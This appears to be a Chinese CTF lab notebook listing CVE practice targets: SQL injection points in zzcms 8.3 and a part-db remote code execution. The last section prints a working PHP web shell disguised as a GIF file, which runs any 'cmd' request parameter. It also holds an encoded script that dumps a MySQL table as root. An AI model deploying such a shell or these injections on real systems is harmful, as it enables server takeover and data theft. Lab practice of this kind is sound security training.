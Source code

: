 

## CVE-2018-18786 zzcms8.3注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中ajax/zs.php中，Cookie的pxzs参数存在SQL注入漏洞

## CVE-2018-18785 zzcms8.3注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中zs/search.php中，Cookie的zzcmscpid参数存在SQL注入漏洞

/uploadimg_form.php?noshuiyin=1&imgid=2

image/jpeg

## CVE-2018-18784 zzcms8.3注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中admin/tagmanage.php中，tabletag参数存在SQL注入漏洞

*收藏：*未收藏

## CVE-2022-0848 part-db RCE

*靶标介绍：*

part-db RCE

参考链接https://packetstormsecurity.com/files/166217/part-db-0.5.11-Remote-Code-Execution.html但是没有用 

自己准备get_flag.pht

```
GIF89a
<?php
system('cat /flag');
system('cat flag');
system($_REQUEST['cmd']);
system(urldecode("export%20PATH%3D%24PATH%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%3BTAGS%3D%2288f2%22%221648%22%3BTAGE%3D%22f8a%22%22511%22%3Basenc()%7B%20cat%20%22%24%40%22%3B%20%7D%3Basexec()%20%7B%20APWD%3D%22root%22%3B%0A%20%20%20%20if%20%5B%20-z%20%24APWD%20%5D%3B%20then%20MYSQLPWD%3D%22%22%3B%20else%20MYSQLPWD%3D%22-p%24%7BAPWD%7D%22%3B%20fi%3B%0A%20%20%20%20mysql%20--xml%20--raw%20-B%20-hlocalhost%20-uroot%20%24MYSQLPWD%20-Dzzcms%20%3C%3C'EOF'%0ASELECT%20*%20FROM%20%60flag%60%20ORDER%20BY%201%20DESC%20LIMIT%200%2C20%3B%3B%0ASELECT%20ROW_COUNT()%20as%20%22Affected%20Rows%22%3B%0AEOF%0A%20%20%20%20%20%7D%3Becho%20-n%20%22%24TAGS%22%3Basexec%7Casenc%3Becho%20-n%20%22%24TAGE%22%3B"));
phpinfo();
?>
```
